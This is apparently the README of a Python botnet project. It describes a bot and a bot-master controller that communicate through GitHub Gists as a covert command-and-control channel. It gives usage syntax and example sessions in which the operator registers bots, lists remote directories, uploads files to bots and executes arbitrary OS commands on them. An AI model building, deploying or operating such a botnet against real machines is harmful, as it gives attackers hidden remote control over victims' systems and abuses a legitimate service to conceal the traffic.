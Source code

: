 ## Description

A python implementation of a botnet, consisting of bot and controller (bot master). The internal communication is done through [GithubGist](https://gist.github.com/discover) using gists. The bot master can send commands to the different bots and receive their responses.

## Prerequisites

python3+ with external modules:
* [requests](https://pypi.org/project/requests/)

## Usage

### Bot

#### Usage

`bot.py <gist_api_token> [<command_fetch_interval[s]> <bot_id> <init_datetime>]`

* `<gist_api_token>` - token for the gist api
* `<command_fetch_interval[s]>` - command fetch interval (in seconds, default = 1)
* `<bot_id>` - id of the preregistered bot (if none provided, it will be registered)
* `<init_datetime>` - init time to fetch commands (format '%Y-%m-%dT%H:%M:%SZ', default = '1900-01-01T00:00:00Z')

### Bot master

#### Usage

`bot_master.py <gist_api_token>`

* `<gist_api_token>` - token for the gist api

#### Interactive usage (cli)

* `bots` - list all bots
* `select <bot_id>` - select a bot
* `send <local_source_file> <remote_target_file>` - send file to a current bot's environment
* `cm <command>` - send a command (to current bot). Available commands:
  * `ls <dir path>` - list files in the directory
  * `cp <source> <target>` - copy a remote file
  * `exec <os command and args>` - execute OS command
* `history` - print a command history (of selected bot)
* `result <command_id>` - print the result of a command (of current bot)
* `info` - print info about environment (of current bot)
* `last` - print the result of the last executed command
* `help` - for help
* `exit` - to exit

## Example

___1. Run bots in two different environments:___

_Bot #1:_
```
username@hostname:~/$ python3 bot.py 349ab29asxtabw423bva5hca5623bc39b8c8
25/12/2020 14:03:20 [INFO] Registering the bot...
25/12/2020 14:03:22 [INFO] Successfully registered. Bot id = b569e438c685b70458e51907b40e51e5
25/12/2020 14:03:22 [INFO] Fetching new commands...
25/12/2020 14:03:22 [INFO] Fetched 0 new commands.
```

_Bot #2:_
```
C:\app>python bot_master.py 349ab29asxtabw423bva5hca5623bc39b8c8
25/12/2020 15:06:29 [INFO] Registering the bot...
25/12/2020 15:06:30 [INFO] Successfully registered. Bot id = 198a0a574b6b3e0c6a89753a853c4e6d
25/12/2020 15:06:30 [INFO] Fetching new commands...
25/12/2020 15:06:30 [INFO] Fetched 0 new commands.
```

___2. Run bot master and check the list of registered bots:___
```
username@hostname:~/$ python3 bot_master.py 349ab29asxtabw423bva5hca5623bc39b8c8
[None]: bots
[None]: {'id': '198a0a574b6b3e0c6a89753a853c4e6d', 'registered': '2020-12-25T14:06:31Z', 'updated': '2020-12-25T14:06:32Z'}
[None]: {'id': 'b569e438c685b70458e51907b40e51e5', 'registered': '2020-12-25T14:03:21Z', 'updated': '2020-12-25T14:03:22Z'}
```
___3. Send commands to bots:___

_select a bot:_
```
[None]: select 198a0a574b6b3e0c6a89753a853c4e6d
[b569e438c685b70458e51907b40e51e5]: Selected b569e438c685b70458e51907b40e51e5
```

_info:_
```
[b569e438c685b70458e51907b40e51e5]: info
[b569e438c685b70458e51907b40e51e5]: ['Linux-4.12.0-1-amd64-x86_64-with-debian-10.5', 'hacker', ['192.168.8.21', '172.16.1.21']]
```

_send some commands:_
```
[b569e438c685b70458e51907b40e51e5]: cm ls /
[b569e438c685b70458e51907b40e51e5]: Sent command id: gASVDgAAAAAAAABdlCiMAmxzlIwBL5RlLg==
[b569e438c685b70458e51907b40e51e5]: cm ls /usr
[b569e438c685b70458e51907b40e51e5]: Sent command id: gASVEQAAAAAAAABdlCiMAmxzlIwEL3VzcpRlLg==
```

_get result of the last command:_
```
[b569e438c685b70458e51907b40e51e5]: last
[b569e438c685b70458e51907b40e51e5]:
['ls', '/usr']
['include', 'share', 'lib', 'src', 'local', 'games', 'bin', 'lib32', 'sbin']
```

_checking the command history:_
```
[b569e438c685b70458e51907b40e51e5]: history
[b569e438c685b70458e51907b40e51e5]: {'command_id': 'gASVDgAAAAAAAABdlCiMAmxzlIwBL5RlLg==', 'command': ['ls', '/']}
[b569e438c685b70458e51907b40e51e5]: {'command_id': 'gASVEQAAAAAAAABdlCiMAmxzlIwEL3VzcpRlLg==', 'command': ['ls', '/usr']}
```

_get result of the command from history:_
```
[b569e438c685b70458e51907b40e51e5]: result gASVDgAAAAAAAABdlCiMAmxzlIwBL5RlLg==
[b569e438c685b70458e51907b40e51e5]:
['ls', '/']
['dev', 'ClassData', 'opt', 'run', 'lib', 'sys', 'var', 'media', 'boot', 'mnt', 'srv', 'flag', 'etc', 'pro
c', 'TeamsData', '.dockerenv', 'bin', 'usr', 'home', 'lib32', 'sbin', 'lib64', 'root', 'tmp']
```

_select another bot and send commands:_
```
[b569e438c685b70458e51907b40e51e5]: select 198a0a574b6b3e0c6a89753a853c4e6d
[198a0a574b6b3e0c6a89753a853c4e6d]: Selected 198a0a574b6b3e0c6a89753a853c4e6d
[198a0a574b6b3e0c6a89753a853c4e6d]: cm ls D:/tmp
[198a0a574b6b3e0c6a89753a853c4e6d]: Sent command id: gASVEwAAAAAAAABdlCiMAmxzlIwGRDovdG1wlGUu
[198a0a574b6b3e0c6a89753a853c4e6d]: last
[198a0a574b6b3e0c6a89753a853c4e6d]:
['ls', 'D:/tmp']
['app.log']
```

_send a local file to bot:_
```
[198a0a574b6b3e0c6a89753a853c4e6d]: send /home/user/bot.py D:/tmp/bot.py
[198a0a574b6b3e0c6a89753a853c4e6d]: Uploading file content /home/user/bot.py
[198a0a574b6b3e0c6a89753a853c4e6d]: Successfully uploaded: file id = b17f883fa593eb2f8ac309c1094110bc
[198a0a574b6b3e0c6a89753a853c4e6d]: Sent command id: gASVPQAAAAAAAABdlCiMAmRklIwNRDovdG1wL2JvdC5weZSMIGIxN2Y4ODNmYTU5M2ViMmY4YWMzMDljMTA5NDExMGJjlGUu
[198a0a574b6b3e0c6a89753a853c4e6d]: last
[198a0a574b6b3e0c6a89753a853c4e6d]:
['dd', 'D:/tmp/bot.py', 'b17f883fa593eb2f8ac309c1094110bc']
Created: D:/tmp/bot.py
[198a0a574b6b3e0c6a89753a853c4e6d]: cm ls D:/tmp/
[198a0a574b6b3e0c6a89753a853c4e6d]: Sent command id: gASVFAAAAAAAAABdlCiMAmxzlIwHRDovdG1wL5RlLg==
[198a0a574b6b3e0c6a89753a853c4e6d]: last
[198a0a574b6b3e0c6a89753a853c4e6d]:
['ls', 'D:/tmp/']
['app.log', 'bot.py']
```

_change bot and execute OS command:_
```
[198a0a574b6b3e0c6a89753a853c4e6d]: select b569e438c685b70458e51907b40e51e5
[b569e438c685b70458e51907b40e51e5]: Selected b569e438c685b70458e51907b40e51e5
[b569e438c685b70458e51907b40e51e5]: cm exec ls -la
[b569e438c685b70458e51907b40e51e5]: Sent command id: gASVFwAAAAAAAABdlCiMBGV4ZWOUjAJsc5SMAy1sYZRlLg==
[b569e438c685b70458e51907b40e51e5]: last
[b569e438c685b70458e51907b40e51e5]:
['exec', 'ls', '-la']
total 40
drwxr-xr-x 3 username username 4096 Dec 25 14:03 .
drwxr-xr-x 3 username username 4096 Dec 25 14:02 ..
-rw-r--r-- 1 username username    7 Dec 25 13:36 README.md
-rw-r--r-- 1 username username 4791 Dec 25 13:36 bot.py
-rw-r--r-- 1 username username 6187 Dec 25 13:36 bot_master.py
-rw-r--r-- 1 username username 1532 Dec 25 13:36 gist.py
-rw-r--r-- 1 username username 1572 Dec 25 13:36 util.py
```

## Additional info:

* registered bot is represented as a gist with description "bot"
* command is represented as a gist-file
* result of the command is represented as a content of the gist-file
* file transfer implementation:
  * bot master creates a gist with description "data"
  * this data gist contains a single gist-file "data"
  * this data gist-file contains a base64 encoded content of the choosen file
  * bot decodes the gist-file content and saves to a target file
